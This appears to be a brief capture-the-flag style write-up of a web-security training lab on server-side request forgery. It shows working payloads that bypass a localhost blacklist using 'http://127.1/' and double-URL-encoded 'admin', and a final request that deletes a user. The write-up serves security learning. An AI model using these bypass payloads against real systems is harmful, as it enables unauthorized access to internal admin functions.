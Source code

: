 # Lab: SSRF with blacklist-based input filter

Goal - To solve the lab, change the stock check URL to access the admin interface at ```http://localhost/admin``` and delete the user ```carlos```.

Defenses -  The developer has deployed two weak anti-SSRF defenses that you will need to bypass.

Analysis :

first we try to just the plain text

- ```stockApi=http://localhost/``` -> 400 "External stock check blocked for security reasons"

- ```stockApi=http://127.0.0.1/``` -> 400 "External stock check blocked for security reasons"

- ```stockApi=http://127.1/``` -> 200 -> bypassed

but still we getting "External stock check blocked for security reasons" when we add "admin"

admin interface : ```http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65```
deleting user : ```/admin/delete?username=carlos```

Final Payload : ```http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65/delete?username=carlos```

----
Scirpt
python3 script.py ```url```

Explanation :

- URL deconding one time for the admin part
- regex search using a blacklist of strings for the ip
